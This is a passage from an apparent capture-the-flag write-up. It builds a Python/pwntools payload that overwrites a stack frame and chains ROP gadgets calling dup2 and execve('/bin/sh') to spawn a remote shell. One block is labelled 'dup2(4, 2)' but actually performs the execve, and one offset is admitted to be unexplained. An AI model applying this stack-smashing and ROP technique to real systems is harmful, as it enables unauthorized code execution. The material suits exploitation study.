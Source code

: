 

Let then build the beginning of our payload to corrupt the stack frame

```py
pld = p64(0x0) # req
pld += p64(thread_heap + FILE_FD_OFFSET) # fp
pld += p64(0) # off
pld += p64(remaining_offset + 0x8) # size
pld += b"A"*0x8 # var_28
pld += p64(thread_stack - (FS_BASE_OFFSET + 0x28) - remaining_offset + 0x50) # temp_buffer, had to add this + 0x50 to make it work
pld += b"A"*0x8 # read_size
pld += b"A"*0x8 # canary
pld += b"A"*0x18 # overwrite saved registers

# Next overwrite will be return address
```

I didn't have enough time to investigate why I have to add this `0x50` offset to the `temp_buffer` variable, but it could be find using GDB.



And finally build the ROP chain :

```py
# dup2(4, 0)
pld += p64(pop_rdi)
pld += p64(4)
pld += p64(pop_rsi)
pld += p64(0)
pld += p64(libc_base + libc.sym['dup2'])

# dup2(4, 1)
pld += p64(pop_rdi)
pld += p64(4)
pld += p64(pop_rsi)
pld += p64(1)
pld += p64(libc_base + libc.sym['dup2'])

# dup2(4, 2)
pld += p64(pop_rdi)
pld += p64(libc_base + next(libc.search(b"/bin/sh")))
pld += p64(pop_rsi)
pld += p64(0)
pld += p64(pop_rdx)
pld += p64(0)
pld += p64(libc_base + libc.sym['execve'])
```

> Initially, I just wanted to do simple `system` with the command inside the heap through a header. Unfortunately, system didn't seem to work remotely, I still don't know why yet...



We then send the payload, padded with a big amount of `A` to fill the `fp` input buffer, and if everything went well, we've got a shell ! 

